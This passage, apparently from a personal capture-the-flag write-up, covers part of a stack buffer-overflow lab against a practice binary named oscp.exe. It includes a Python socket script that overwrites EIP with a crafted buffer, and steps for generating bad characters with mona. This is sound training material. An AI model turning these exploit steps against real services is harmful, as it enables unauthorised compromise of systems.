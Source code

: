![offset](https://i.imgur.com/kwE9noe.png)

Update your exploit.py script and set the offset variable to this value (was previously set to 0). Set the payload variable to an empty string again. Set the retn variable to "BBBB".

Restart oscp.exe in Immunity and run the modified exploit.py script again. The EIP register should now be overwritten with the 4 B's (e.g. 42424242).

```python
import socket

ip = "10.10.73.127"
port = 1337

prefix = "OVERFLOW1 "
offset = 1978
overflow = "A" * offset
retn = "BBBB"
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    s.connect((ip, port))
    print("Sending evil buffer...")
    s.send(buffer + "\r\n")
    print("Done!")
except:
    print("Could not connect.")
```
so after running this script the EIP register got overwritten by 42424242 (this is just to to controll EIP)

![eip](https://i.imgur.com/xMb6hdR.png)

next step **finding bad characters**

Finding Bad Characters

﻿Generate a bytearray using mona, and exclude the null byte (\x00) by default. Note the location of the bytearray.bin file that is generated (if the working folder was set per the Mona Configuration section of this guide, then the location should be C:\mona\oscp\bytearray.bin).

`!mona bytearray -b "\x00"`

Now generate a string of bad chars that is identical to the bytearray. The following python script can be used to generate a string of bad chars from \x01 to \xff:

```python
from __future__ import print_function

for x in range(1, 256):
    print("\\x" + "{:02x}".format(x), end='')

print()
```
after genrating the bad character lets update the payload variable with genrated badcharacters. 
so its time to crash the binary again .... ( tbh iam loving this ).
